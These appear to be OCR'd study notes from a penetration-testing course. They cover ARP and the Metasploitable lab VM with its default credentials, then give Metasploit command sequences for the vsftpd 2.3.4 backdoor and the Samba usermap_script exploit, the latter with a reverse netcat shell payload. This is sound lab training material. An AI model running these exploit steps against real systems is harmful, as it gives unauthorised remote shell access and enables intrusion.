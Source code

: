 XArp

## chapter 53

ARP Address Resolution Protocol

## chapter 54

Server side

Client side

## chapter 55

metasploitable

name: msfadmin
pass: msfadmin

## chapter 57

- try default password(ssh iPad case).
- Services might be mis-configured, such as the "r" service. Ports 512, 513, 514
- some might even contain a back door
- code execution vulnerabilities

```sh
id
uname -a
```

## chapter 58
- > msfconsole - runs the metasploit console
- > help - shows help
- > show [something] - something can be exploits, payloads, auxiliaries or options
- > use [somethins] - use a certain exploit, payload or auxiliary.
- > set [option] [value] - configure [option] to have a value of [value]
- > exploit - runs the current task

back door case
```sh
# in kali
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
show options
set RHOST [target_address]
show options
exploit     # may run more than one time
```

code execution vulnerabilities case
## chapter 59
```sh
msfconsole
use exploit/multi/samba/usermap_script
show options
set RHOST [target_address]
show options
show payloads
set PAYLOAD cmd/unix/reverse_netcat
set LHOST [my_own_address]
show options
set LPORT 5555    # just in case
show options
```